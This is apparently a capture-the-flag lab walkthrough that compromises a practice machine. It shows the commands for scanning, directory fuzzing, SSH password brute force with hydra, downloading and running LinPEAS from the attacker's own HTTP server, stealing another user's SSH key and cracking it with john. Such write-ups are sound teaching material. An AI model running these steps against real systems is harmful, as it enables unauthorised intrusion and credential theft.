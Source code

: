 10.10.162.125


###### open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

###### ping

```
$ ping 10.10.159.226
```


###### nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```
![src:index](basicpentesting_1.png)
                                                                                                                                                                                         
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

![src:index](basicpentesting_2.png)

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```
![src:index](basicpentesting_3.png)
![src:index](basicpentesting_4.png)


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```
![src:index](basicpentesting_5.png)
![src:index](basicpentesting_6.png)
###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```
![src:index](basicpentesting_7.png)

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```
![src:index](basicpentesting_8.png)
![src:index](basicpentesting_9.png)

###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```

###### found possible private SSH keys 
/home/kay/ .ssh/id_rsa
![src:index](basicpentesting_10.png)

###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

found pass.bak

###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```
![src:index](basicpentesting_11.png)

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa
![src:index](basicpentesting_12.png)
###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
![src:index](basicpentesting_13.png)
###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```
![src:index](basicpentesting_14.png)

###### chmod 
```
$ chmod 600 kay_id_rsa
```
![src:index](basicpentesting_15.png)
###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```
![src:index](basicpentesting_16.png)
###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```
![src:index](basicpentesting_17.png)












